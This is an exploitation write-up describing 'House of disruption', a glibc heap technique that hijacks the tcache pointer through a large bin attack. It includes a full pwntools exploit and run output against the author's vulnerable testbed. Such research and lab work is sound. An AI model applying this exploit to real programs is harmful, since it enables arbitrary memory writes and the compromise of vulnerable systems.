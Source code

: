 # House of disruption
In this article I will describe a new powerful heap house I crafted which is applicable from glibc versions `2.26` until `2.35` (latest at the moment of writing this article). It's a pretty simple House but quite powerful with what you can do with it!

The main idea behind house of disruption is: by performing a simple large bin attack (which until 2.35 is unpatched) against `tcache` pointer, we can fool glibc into thinking that `tcache` is somewhere else on the heap. By crafting a fake tcache inside the large bin which `tcache` pointer is pointing to after the large bin attack, we can easily make `malloc` to return arbitrary chunks.

The only requirements for the house of maddness is a libc leak which we need inorder to locate the `tcache` pointer in memory and the ability to perform a large bin attack. Quite minimalistic isn't?

# Dive into malloc internals
For the house of disruption actually we just need to understand how tcache returns free tcache chunks back to the program.
```c
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```
And this is actually pretty interesting. When you ask from malloc/realloc/calloc/etc a chunk in the tcache range (from `0x0` to `0x400` bytes), `malloc` will try to see if there is an available free tcache chunk in the range of your requested chunk. If it finds one it will call `tcache_get` to fetch a the free chunk and it will return it back to the program that requested this chunk.

The most important thing you have to consider is how ptmalloc2 locates the tcache on the heap. And as you can see above it uses a global variable named `tcache`. This variable will be our target for our large bin attack later.
```c
static __thread tcache_perthread_struct *tcache = NULL;
```
`tcache` is a per thread global variable and hence it is stored in the thread local storage of each thread. But for our single threaded program you can see it as a simple global variable which is **writable**.

Because ptmalloc2 blindly trusts this `tcache` pointer, if you are able to modify him to point somewhere you can write a fake `tcache` you will be able eventually to make ptmalloc2 to return arbitrary chunks back to the program!

For our case the only place we can craft a fake tcache is on the heap and so we will perform a large bin attack to put a heap address into the `tcache` pointer.

# Proof of Concept
For a proof of concept I will use the same testbed I used for another House that I made. You can find it [here]. If you remove the theme it's actually a simple testbed. In that testbed you have the ability to allocate chunks with a max size of `0x1000` bytes and you can free them if you wish. The bug in my testbed is a heap overflow of `40` bytes.

# Exploit for House of disruption.
```python
from pwn import *

elf = context.binary = ELF('house_of_disruption_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    else:
        return process(elf.path)

free_positions = [0,]*8

def select_option(option):
    io.sendlineafter(b'> ', str(option).encode())

def adjust_size(chunk_size): # copy pasted from HeapLABs ;)
    return (chunk_size & ~0x0f) - 8

def lock_position():
    for i in range(8):
        if free_positions[i] == 0:
            free_positions[i] = 1
            return i
    return -1

def unlock_position(pos):
    free_positions[pos] = 0
    
def malloc(size, contents):
    select_option(option = 1)
    io.sendlineafter(b'> ', hex(adjust_size(size)).encode())
    io.sendlineafter(b'> ', contents)
    return lock_position()

def free(index):
    select_option(option = 2)
    io.sendlineafter(b': ', str(index).encode())
    unlock_position(index)
    
def largebin_offset(address):
    return address - 0x20

def largebin_attack(target, fake_tcache_contents):
    largebin_target = largebin_offset(target)
    
    chunk_A = malloc(size = 0x820, contents=fake_tcache_contents) # after our large bin attack our new tcache will be here.
    chunk_B = malloc(size=0x70, contents=b'useful chunk') # this will take a guard chunk role also.
    chunk_C = malloc(size = 0x830, contents=b'Overflow me I will give you arbitrary chunks of many sizes!')
    chunk_guard = malloc(size = 0x40, contents=b'guard chunk')
    
    # Initiate our large bin attack.
    free(chunk_C) # free the biggest large chunk.
    
    # currently chunk 0x830 is linked in unsortedbin list, let's sort it to large bin list.
    sorter_chunk = malloc(size=0x840, contents=b'blah blah')
    free(chunk_A) # free the smallest large chunk.
    
    free(chunk_B) # we free this chunk inorder to overflow to chunk_C and hijack bk_nextsize pointer.
    
    chunk_B = malloc(size=0x70, contents=b'A'*0x60 + p64(0x0) + p64(0x830) + p64(0x0) + p64(0x0) + p64(0x0) + p64(largebin_target))
    # because we are sending also a newline we have to discard some output. Newline issues -.-
    io.recvuntil(b'Sorry you are not allowed to leave, you are my slave.\n')
    
    sorter_chunk = malloc(size=0x840, contents=b'blah blah') # now tcache must point back to our chunk_A!

def house_of_disruption():
    tcache_ref = libc.address - 0x2908
    
    # I will choose default_overflow_region as my target, you can choose any targets you like. Try to get a shell if you can ;)
    '''
        2a6:1530│       0x7faddbc4a530 (program_invocation_short_name) —▸ 0x7fff07c5ee08 ◂— 'house_of_disruption_patched'
        2a7:1538│       0x7faddbc4a538 (program_invocation_name) —▸ 0x7fff07c5eded ◂— '/home/un1c0rn/house_of_disruption/house_of_disruption_patched'
        2a8:1540│       0x7faddbc4a540 (default_overflow_region) ◂— 0x0
        2a9:1548│       0x7faddbc4a548 (default_overflow_region+8) ◂— 0x1
        2aa:1550│       0x7faddbc4a550 (default_overflow_region+16) ◂— 0x2
    '''
    
    target = libc.sym.default_overflow_region  # any target we like but we need it to be aligned to avoid tcache_get unaligned tcache mitigation!
    contents = p64(0xdeadbeef) + p64(0xcafebabe) + p64(0xbadc0de)

    # After our large bin attack our small large bin which now is our tcache will look like this:
    '''
        0x55ed6a059290:	0x0000000000000000	0x0000000000000821
        0x55ed6a0592a0:	0x00007f9ce80d41d0	0x000055ed6a059b20
        0x55ed6a0592b0:	0x000055ed6a059b20	0x00007f9ce7ede6d8
        0x55ed6a0592c0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592d0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592e0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592f0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059300:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059310:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059320:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059330:	0x00000000deadbeef	0x00000000deadbeef
    '''
    
    # Our new tcache will start from 0x55ed6a059290.
    # So we can not control the first 6 qwords. (Except if we perform another heap overflow from an above crafted chunk or with a write after free). But it doesn't matter the top of the tcache is allocated for the counts.
    # Filling our small large bin with a special crafted fake tcache we can supply fake tcache bins and allocate whatever we want!
    
    '''
/* offset      |    size */  type = struct tcache_perthread_struct {
/* 0x0000      |  0x0080 */    uint16_t counts[64];
/* 0x0080      |  0x0200 */    tcache_entry *entries[64];

                            /* total size (bytes):  640 */
                            }
    '''
    
    fake_tcache_counts = p64(0)*4 + p64(0xffffffffffffffff)*10 # first 4 qwords are used for fd/bk/bk_nextsize/fd_nextsize and after our large bin attack whatever we place there will be overwritten
    fake_tcache_bins   = p64(target - 0x10)*0x80 # spray our target because I'm lazy to calculate simple stuff.
    
    fake_tcache = fake_tcache_counts + fake_tcache_bins
    
    largebin_attack(tcache_ref, fake_tcache)
    malloc(size = 0xe0, contents=p64(0x0)*2 + contents) # allocate our target and overwrite it with our contents :)
    
    success(f'See the contents of your target in the debugger ;)')
    success(f'Quick reminder your selected target was: 0x{target:02x}')
    
io = start()

io.recvuntil(b'@ The ASLR god gifted you a present for your adventure: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

house_of_disruption()

io.interactive()
```
Result:
```python
$ python3 exploit.py GDB
[+] puts @ 0x7ffbf8091e80
[+] libc @ 0x7ffbf8018000
[+] See the contents of your target in the debugger ;)
[+] Quick reminder your selected target was: 0x7ffbf820b540
[*] Switching to interactive mode

Press 1 to add a new pwnie land
Press 2 to burn your pwnie land
> $  
pwndbg> tel 0x7ffbf820b540
00:0000│  0x7ffbf820b540 (default_overflow_region) ◂— 0xdeadbeef
01:0008│  0x7ffbf820b548 (default_overflow_region+8) ◂— 0xcafebabe
02:0010│  0x7ffbf820b550 (default_overflow_region+16) ◂— 0xbadc0de
03:0018│  0x7ffbf820b558 (default_overflow_region+24) —▸ 0x7ffbf821000a (__pthread_keys+10314) ◂— 0x0
04:0020│  0x7ffbf820b560 (default_overflow_region+32) ◂— 0x0
05:0028│  0x7ffbf820b568 (default_overflow_region+40) ◂— 0xffffffffffffffff

```
